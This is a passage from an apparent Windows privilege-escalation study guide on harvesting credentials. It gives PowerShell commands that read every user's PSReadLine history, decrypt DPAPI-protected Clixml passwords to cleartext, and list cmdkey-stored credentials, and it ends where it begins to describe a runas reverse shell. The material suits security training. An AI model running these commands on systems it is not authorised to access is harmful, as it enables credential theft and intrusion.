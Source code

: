 ```powershell
(Get-PSReadLineOption).HistorySavePath
```

Get the content with Get-Content (gc):

```powershell
 gc (Get-PSReadLineOption).HistorySavePath
```

Taking this further, if we are local admin we can read the files for all users with this one-liner:

```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

## PowerShell Credentials

PowerShell credentials are often used for scripting and automation tasks as a way to store encrypted credentials conveniently. The credentials are protected using [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API), which typically means they can only be decrypted by the same user on the same computer they were created on.

Take, for example, the following script `Connect-VC.ps1`, which a sysadmin has created to connect to a vCenter server easily:

```powershell
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
```

**Decrypting PowerShell Credentials**: If we have gained command execution in the context of this user or can abuse DPAPI, then we can recover the cleartext credentials from `encrypted.xml`. The example below assumes the former:

```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username

$credential.GetNetworkCredential().password
```


## Cmdkey saved credentials

The [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) command can be used to create, list, and delete stored usernames and passwords.

```cmd-session
# To display a list of all user names and credentials that are stored, type:
cmdkey /list
```

We can also attempt to reuse the credentials using `runas` to send ourselves a reverse shell as that user, run a binary, or launch a PowerShell or CMD console with a command such as:
